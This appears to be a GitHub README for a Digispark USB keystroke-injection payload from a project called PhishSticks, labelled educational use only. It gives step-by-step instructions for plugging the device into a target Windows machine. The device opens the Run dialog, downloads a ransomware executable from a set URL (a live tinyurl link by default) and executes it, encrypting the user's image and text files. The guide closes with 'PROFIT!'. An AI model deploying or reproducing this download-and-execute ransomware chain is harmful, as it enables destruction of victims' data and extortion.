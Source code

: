 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Ransomware
For more details, see our [documentations](/documentation/conops_ransomware.md).

Opens up Run in Windows.   
Using keystroke injections:   
- Downloads the ransomware executable, from user defined location.   
- Executes it, and the executable encrypts .txt, .jpg, .jpeg, .png files in the directory, it is downloaded to.

Check out more detailed usage of the [Ransomware in our project.](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware)

## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `DownloadFile('URL_WHERE_TO_DOWNLOAD'`    
	**NOTE: As is (`https://tinyurl.com/28sb6pvc`), it downloads it from [here](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware/Python%20app)**   
	
	- Path, where to download and what to execute (both must be the same):
		- `$env:UserProfile/TestDirz338/malware.exe\\\`
	- Working Dir:
		- `-WorkingDir \\\"$env:UserProfile/TestDirz338\\\`
- Please note, that we don't recommend blindly using our tinyurl. Make your own URL and .exe to be safe!
- Upload to Digispark
- Make a directory named `TestDirz338` in the User-directory of the target machine. The directory name IS case sensitive and the directory needs to be in the correct directory for the ransomware to work. Or adjust the code to suit your test environment.
- Plug the Digispark in to the target machine
- **PROFIT!**

---
**Note:**  
Folder:
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_ransomware/old)
    - Older draft to initially getting the ransomware with Digispark to work
